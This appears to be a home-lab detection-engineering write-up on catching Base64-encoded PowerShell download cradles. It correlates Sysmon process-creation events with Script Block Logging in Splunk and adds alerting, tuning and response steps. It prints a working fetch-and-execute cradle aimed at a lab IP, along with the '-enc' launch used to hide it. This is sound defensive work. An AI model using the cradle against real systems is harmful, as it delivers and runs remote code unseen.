






# Detection 2 — Obfuscated PowerShell (Download Cradle)

**MITRE ATT&CK:** T1059.001 (Command and Scripting Interpreter: PowerShell)
**Log sources:** Sysmon Event 1 (process creation) and PowerShell Script Block Logging — Event 4104

## The attack

Attackers use PowerShell because it is built into Windows, signed, and trusted — living off the land. They hide what the command does by Base64 encoding then launching it with -EncodedCommand (short form `-enc`), so the command line shows only a obfuscated commaned.

From the victim (192.168.56.20) I built an encoded command and ran it. The hidden command is a download cradle, the common real-world loader shape that fetches a script from a URL and runs it in memory. I pointed it at a dead address on the isolated lab network, so it produces the real indicators without downloading anything.

```
$cmd = 'IEX (New-Object Net.WebClient).DownloadString("http://192.168.56.99/a.ps1")'
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($cmd))

powershell.exe -enc <encoded string>
```



## Log source

This detection uses two logs, because each one holds half the of the info we want.

Sysmon Event 1 records the launch — the command line with `-enc` and the blob(wich is the "obfuscated " or encoded string), plus the parent process, the user, and the path, but it doesnt show content in plain text. 

```
index=windows source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 CommandLine="*-enc*"
```



PowerShell Event 4104 records the decoded script that PowerShell actually compiled. It shows the face behind the mask — the real command in plain text — but it does not record which program launched PowerShell.

```
index=windows source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104 Message="*DownloadString*"
```



So 4104 tells you what ran, and Event 1 tells you how it was launched and by whom. The parent process from Event 1 is also what the false-positive tuning depends on later.

## The query

The detection correlates the two signals. It fires only when the same host shows both an encoded launch and download behaviour. It never searches for the attacker's blob or URL — only for the shape of the technique, so it still works when the attacker changes the payload.

```
index=windows (source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 CommandLine="*-enc*")
   OR (source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104)
| eval signal=case(source=="WinEventLog:Microsoft-Windows-Sysmon/Operational","encoded_launch", match(Message,"(?i)(downloadstring|downloadfile|downloaddata|net\.webclient|invoke-webrequest|iwr\s|invoke-restmethod|irm\s|start-bitstransfer)"),"download_behavior")
| where isnotnull(signal)
| stats dc(signal) as signal_types values(signal) as signals values(CommandLine) as CommandLine values(Message) as Script by ComputerName
| where signal_types>=2
```

The query pulls both kinds of event, labels each one as `encoded_launch` or `download_behavior`, then counts the distinct signal types per host and keeps only hosts that produced both. The `(?i)` makes the download match NOT case sensitive, and the regex covers the common download methods, not just `DownloadString`.

Result: one host, `signal_types = 2`, showing both signals.



## Why two events, not an AND

The `-enc` flag and the `DownloadString` call live in two separate log entries, in two different logs, written seconds apart. No single event contains both, so a literal AND on one event would always return nothing. The query gathers both events with OR and then counts how many distinct signal types a host produced. The distinct-count is what performs the AND across two events. This is event correlation, and it is the core of the detection.

## Event volume

The correlation returns a single row — the victim host — with a distinct signal count of 2. It is built from 1 encoded-launch event and 2 download-behaviour hits (the live cradle and the command that built the blob). Low volume, high signal, which is what a correlation rule is supposed to produce.

## The alert

The query is saved as a scheduled Splunk alert:
- Runs every 5 minutes, searching the last 15 minutes
- Window is wider than the schedule so both signals, which fire seconds apart, are always captured in the same search
- Triggers when the query returns a result, which means both signals appeared on one host
- Throttled to one alert per host per 60 minutes, so one attack is one alert
- Severity: Medium



Confirmed firing automatically after a live attack — the detection catches the attack on its own, not just when run by hand.



## False positives
The two-signal design is the main defence. Requiring both an encoded launch and download behaviour removes the obvious noise. For example, Chocolatey and similar installers download a script with DownloadString, but run it in plain text, not encoded, so they produce only one signal and the alert stays silent.
A few things would still trip both signals, like deployment tools or an admin running an encoded download by hand. These are sorted out in response steps using context , mainly the parent process, the URL, and the user.

**Limitation:** Limitation: the download signal looks for the common download commands, not every possible one. An attacker who downloads in an unusual way could slip past it.

## Response steps

When this fires:
1. Read the correlated row and confirm both signals are genuinely present — the `-enc` command line and the decoded script.
2. Read the decoded 4104. It shows the real intent in plain text, it shows the URL, what it fetches, and what it runs.
3. Check the parent process. An Office like (Word,Excel) means treat as malicious becuase a a document launched code, which is how some malware works. A explorer.exe or cmd.exe started it means a person typed the command, so we need to keep checking.
4. Check the details around the event. Where was it downloading from, a known company website, or a bare IP address like 192.168.56.99? Whose machine is it, and is that person expected to run scripts? A legitimate download usually has expected answers.
5. Check whether it succeeded. The cradle runs in memory, so look for new processes, network connections, or persistence created right after. A failed download is an attempt; a successful one is a compromise.
6. Decide. If real: isolate the host, kill the process, reset affected credentials, and hunt for what the payload did.
7. Check whether the same pattern appears on other hosts.

## Hardening note

Script Block Logging (4104) is what makes this attack visible — it is off by default on most machines, and enabling it is the control that defeats the encoding.

## NCA ECC-2:2024 mapping

- **2-12 Cybersecurity Event Logs and Monitoring Management** — centrally collected Sysmon and PowerShell logs, continuously monitored, are what make this detection possible.
- **2-13 Cybersecurity Incident and Threat Management** — the response steps show how a detected event moves into response.
- **2-3 Information System and Information Processing Facilities Protection** — the detection protects the endpoint against malicious code execution, supporting the malware-protection intent of this control.
